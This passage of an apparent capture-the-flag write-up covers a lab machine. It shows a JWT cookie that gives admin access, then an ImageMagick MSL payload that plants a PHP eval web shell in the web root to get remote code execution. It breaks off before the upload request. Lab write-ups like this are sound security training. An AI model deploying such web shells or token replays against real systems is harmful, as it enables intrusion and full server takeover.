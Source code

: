 ```
X-Content-Type-Options: nosniff
Content-Length: 34

{"status":"success","name":"greg"}
```

By adding this cookie to your browser session you could log into the admin pages.
```
token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3MjkzMDIzLCJleHAiOjE2OTczMTQ2MjMsIm5iZiI6MTY5NzI5MzAyMywianRpIjoiMzhnTmMxRGtIZ0lQREJGcSIsInN1YiI6IjIiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.HBdW-t5hCQ8e71PJp04u0FfkDBZoduAtVY7Pp9BmWsE
```
### Code execution: Imagemagick


On the front page there seems to be a pretty big hint about what service is being used to modify pictures in the background. there is a link to the manual page of imagemagick.

![ImageMagick hint](/assets/img/Intentions/Intentions_3.png)

https://www.php.net/manual/en/class.imagick.php


After googling around a little for vulnerabilities with this library i stumbled upon the following blog showing a way to gain remote code execution using the MSL format

https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/


In short, it's possible to write files to write files to the server by supplying a specifically crafted msl file.
. I created the following MSL file to create a very basic command injection payload in php. this command injection is then written to 
**/var/www/html/intentions/public/calico.php**
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/intentions/public/calico.php" />
</image>
```
Then using the following curl request we were able to upload this file which will then create our command execution php page.
